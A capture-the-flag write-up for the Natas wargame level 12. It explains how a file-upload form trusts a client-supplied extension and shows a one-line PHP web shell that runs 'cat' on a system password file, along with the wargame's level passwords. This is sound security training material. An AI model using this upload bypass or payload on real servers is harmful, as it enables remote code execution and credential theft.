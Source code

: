 <h2>🔰 Level - 12</h2>

- username - natas12
- password - YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

	This time, the site gives an option to upload a jpeg file. Link for sourcecode was also given. <br>
	```php
	<?php

	function genRandomString() {
	    $length = 10;
	    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
	    $string = "";

	    for ($p = 0; $p < $length; $p++) {
	        $string .= $characters[mt_rand(0, strlen($characters)-1)];
	    }

	    return $string;
	}

	function makeRandomPath($dir, $ext) {
	    do {
	    $path = $dir."/".genRandomString().".".$ext;
	    } while(file_exists($path));
	    return $path;
	}

	function makeRandomPathFromFilename($dir, $fn) {
	    $ext = pathinfo($fn, PATHINFO_EXTENSION);
	    return makeRandomPath($dir, $ext);
	}

	if(array_key_exists("filename", $_POST)) {
	    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


	        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
	        echo "File is too big";
	    } else {
	        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
	            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
	        } else{
	            echo "There was an error uploading the file, please try again!";
	        }
	    }
	} else {
	?>
	```
	This code stores the input file with a randomly generated string as name, in the upload directory. <br>
	```html 
	<form enctype="multipart/form-data" action="index.php" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
	<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
	Choose a JPEG to upload (max 1KB):<br/>
	<input name="uploadedfile" type="file" /><br />
	<input type="submit" value="Upload File" />
	</form>
	<?php } ?>
	```
	Now, within the rest of html code, it passes two more inputs of hidden type. One is a file name.<br>
	In the above php code, the extension in which uploaded file is saved is taken not from the actual uploaded file, but from this hidden input. <br>
	That is, the extension of the file we upload doesn't matter.<br>

	After uploading the file, a link to file was displayed in the form `upload/xxxxxxxxxx.jpg`  <br>
	So, when clicked, this path is added to url and is visited by the browser. <br>

	An interesting idea is that, if a php file, instead of jpg or txt, is opened in a browser, it actually executes the php script within the file. All we need to do is create a sample php script and pass it to the input field.<br>

	So I created a simple php script to cat out the password. <br>

	```php
	<?php
	system("cat /etc/natas_webpass/natas13");
	?>
	```
	I uploaded this file, then changed the extension in the inline php script from jpg to php. When the link to uploaded file was displayed, it was a link the php file I uploaded. Opened the link and got the password. <br>

Password for level 13 - lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
